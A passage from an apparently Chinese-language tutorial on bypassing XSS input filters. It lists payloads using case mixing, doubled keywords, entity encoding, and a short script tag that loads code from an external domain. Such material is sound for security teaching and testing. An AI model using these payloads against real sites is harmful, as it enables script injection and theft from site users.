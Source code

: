 当字符串长度或某个字符被限制时，可以尝试找一些特殊字符（比如希腊的字），这样能起到1个字符代替2个字符，或者绕过安全限制的效果。

```html
<!-- 长度仅为 18 ！用于用户名等长度受到限制的场景 -->
<script/src=//⑭.₨>
```
### 3) 如果对用户输入进行了处理

如果通过正则表达式对用户输入进行了处理，都可以尝试使用以下方法绕过

#### 3.1 通过大小写绕过处理

如果没有使用toLowerCase()等方法讲用户输入全部转换为小写，那么大小写混合的方式就能轻易绕过处理程序
```html
<sCRIpt>alert(1)</sCRIPT>  <!-- 大小写绕过 -->
```

#### 3.2 通过双写绕过删除处理

那么现在服务端将所有用户输入都转换为大/小写了，上述方法就不起作用，这时观察服务端是否使用了replace()类似方法将敏感字符删除，如果有，则可以尝试以下方式

```html
<!-- 双写绕过删除 -->
<sc<script>ript>alert(1)</sc<script>ript> <!-- 如果处理了'<script>' -->
<img src=x ononerrorerror=alert(1) /> <!-- 如果处理了'onerror' -->
```

如果不是递归删除，那么处理后会分别变成 

```html
<script>alert(1)</script>
<img src=x onerror=alert(1) />
```

Nice，又成功执行了我们的代码！

#### 3.3 通过双写绕过替换处理

如果不是删除字符串，而是替换成其他字符串（比如tooyoung）呢？3.2的结果可能会变成这样

```html
<sctooyoungript>alert(1)</sctooyoungript>
<img src=x ontooyoungerror=alert(1) />
```

可惜了，浏览器不会解析这些标签和事件，所以我们不能达到预期，必须寻找其他办法，如果按照以下方式来写...

```html
<script <script>>alert(1)</script </script>> => <script tooyoung>alert(1)</script tooyoung> 
```
tooyoung 会被浏览器认为是一个不带值的属性（如autofocus），虽然没什么用，但最终也能正确解析执行

#### 3.4 通过编码绕过处理

下面的代码不匹配正则表达式，但是浏览器依旧会执行它，因为使用了html实体编码绕过
```html
<a href="java&#115;cript:alert('xss')">XSS</a> 
<input onfocus="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#49;&#39;&#41;" autofocus/>
```
